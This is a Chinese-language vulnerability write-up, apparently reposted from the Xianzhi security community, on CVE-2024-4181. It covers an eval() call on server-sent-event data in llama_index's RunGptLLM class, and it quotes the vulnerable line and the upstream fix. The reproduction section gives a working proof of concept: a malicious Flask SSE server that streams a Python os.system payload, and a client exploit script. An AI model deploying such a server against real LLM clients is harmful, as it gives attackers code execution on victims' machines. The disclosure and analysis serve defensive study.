





# CVE-2024-4181  run-llama/llama_index-SSE Command Injection分析-先知社区

> **来源**: https://xz.aliyun.com/news/16025  
> **文章ID**: 16025

---

## 前言

* Lllamaindex介绍： 一个用于构建和查询自定义文档索引的 Python 库。LlamaIndex 原名 GPT Index，专门用于将大量文档组织成索引结构，作为工具库辅助大语言模型进行高效地查询和检索信息。<https://docs.llamaindex.ai/en/stable/#introduction>
* SSE：流式传输是一种处理数据的方式，它允许程序在数据生成的同时逐步接收和处理数据，而不是等待所有数据完成后再处理。在LLM中，流式传输可以让用户实时看到模型的输出，而不是等到整个响应生成完毕。<https://segmentfault.com/a/1190000043926932>

## 分析

漏洞代码存在`llama_index\llms\rungpt.py`的rungpt类

简单介绍该类：此类主要用于与远程大语言模型进行交互，提供了一系列方法来生成文本和处理对话。

进入stream\_complete函数，从 requests.post 方法向 恶意站点的 "/generate\_stream" 接口发送 POST 请求，请求体包含格式化后的提示文本和额外参数，开启流式响应。并使用 sseclient.SSEClient 处理流式响应，将其转换为事件迭代器获取到response\_iter。



跟进下方gen函数，此函数将获取到的sse客户端事件迭代器遍历取出并格式化，返回 CompletionResponse 对象。



发现其中在取出迭代器内容的时候会放在eval函数，即可直接在Lllamaindex客户端本地执行任意代码

```
item_dict = json.loads(json.dumps(eval(item.data)))

```

同理，此漏洞也存在stream\_chat函数中，原理相同不再赘述。

后续官方对于此漏洞的加固主要是在gen函数中处理迭代器时不再进行额外的 JSON 序列化和反序列化操作，同时不再使用eval，去除RCE的风险。



<https://github.com/run-llama/llama_index/commit/d73715eaf0642705583e7897c78b9c8dd2d3a7ba#diff-024fc1b3e2dc420507d50a44ae07ef0764c33ddcf84b61aa8b1bba4eb15e6e6dR213>

## 复现

复现环境：

* 漏洞影响版本：<font style="color:rgb(0, 0, 0);">< </font>**<font style="color:rgb(120, 60, 185);">0.10.13</font>**
* 服务端：win10 python 3.12.6 flask 192.168.111.137
* 客户端：win11 python 3.12.6 llama\_index localhost

服务端代码

```
from flask import Flask, Response
import time
import logging

app = Flask(__name__)

# 设置日志记录
logging.basicConfig(level=logging.INFO)

def generate_sse_events():
    """Generate a sequence of SSE events for demonstration."""
    event_id = 1
    while True:
        data = "__import__('os').system('calc')"
        logging.info(f"Executing command: {data}")
        yield f"id: {event_id}\ndata: {data}\nevent: time_update\n\n"
        event_id += 1
        time.sleep(1)  # Delay to simulate real-time events

@app.route('/chat_stream', methods=['POST'])
def sse_request():
    return Response(generate_sse_events(), content_type='text/event-stream')

if __name__ == '__main__':
    app.run(debug=False, port=5000)

```

客户端代码

```
from llama_index.llms.rungpt import RunGptLLM


class Exploit:
    def __init__(self):
        # Initialize with the mock SSE server URL
        self.run_gpt_llm = RunGptLLM(endpoint="http://192.168.111.137:5000")
        # self.run_gpt_llm = RunGptLLM(endpoint="http://localhost:5000")
    def exploit(self):
        # This method simulates interacting with the stream_chat to process the malicious payload
        messages = []  # Assuming an empty message list for simplicity
        #
        generator = self.run_gpt_llm.stream_chat(messages)
        #
        # generator = self.run_gpt_llm.stream_complete("")

        try:
            for response in generator:
                print("Received a response: ", response)
                if isinstance(response, int):
                    print("Warning: Received an integer response, which is not expected.")
                else:
                    # Process the response as needed
                    print("Processing response: ", response)
        except Exception as e:
            print("Error processing the stream: ", e)


# Simulate executing the exploit
if __name__ == "__main__":
    exploit = Exploit()
    exploit.exploit()

```

验证触发

在客户端获取服务端返回sse响应时造成RCE



stream\_chat复现也是一样的


